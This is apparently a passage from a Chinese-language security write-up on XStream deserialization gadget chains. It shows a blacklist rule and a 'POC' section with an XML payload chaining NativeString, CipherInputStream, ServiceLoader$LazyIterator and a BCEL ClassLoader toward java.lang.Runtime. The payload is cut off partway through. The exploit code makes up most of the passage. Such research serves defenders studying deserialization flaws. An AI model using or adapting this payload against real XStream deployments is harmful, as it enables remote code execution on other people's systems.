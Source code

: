 其中fConfigParse、fPullParserConfig、parmsfalse都可控

### [](#黑名单：-6 "黑名单：")黑名单：

```java
denyTypeHierarchyDynamically("javax.sql.rowset.BaseRowSet");
```

[](#ServiceFinder-LazyIterator "ServiceFinder$LazyIterator")ServiceFinder$LazyIterator
--------------------------------------------------------------------------------------

### [](#POC-6 "POC")POC

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="java.util.ServiceLoader$LazyIterator">
                  <service>java.lang.Object</service>
                  <loader class="com.sun.org.apache.bcel.internal.util.ClassLoader">
                    <package2certs class="hashtable"/>
                    <classes defined-in="java.lang.ClassLoader"/>
                    <defaultDomain>
                      <principals/>
                      <hasAllPerm>false</hasAllPerm>
                      <staticPermissions>false</staticPermissions>
                      <key>
                        <outer-class reference="../.."/>
                      </key>
                    </defaultDomain>
                    <domains/>
                    <packages/>
                    <nativeLibraries/>
                    <defaultAssertionStatus>false</defaultAssertionStatus>
                    <classes>
                      <entry>
                        <string>java.lang.Object</string>
                        <java-class>java.lang.Object</java-class>
                      </entry>
                      <entry>
                        <string>java.lang.Runtime</string>
                        <java-class>java.lang.Runtime</java-class>
                      </entry>
                    </classes>
                    <ignored__packages/>
                    <repository class="com.sun.org.apache.bcel.internal.util.SyntheticRepository">
                      <__path>
                        <paths/>
                        <class__path></class__path>
                      </__path>
                      <__loadedClasses/>
                    </repository>
                  </loader>
```
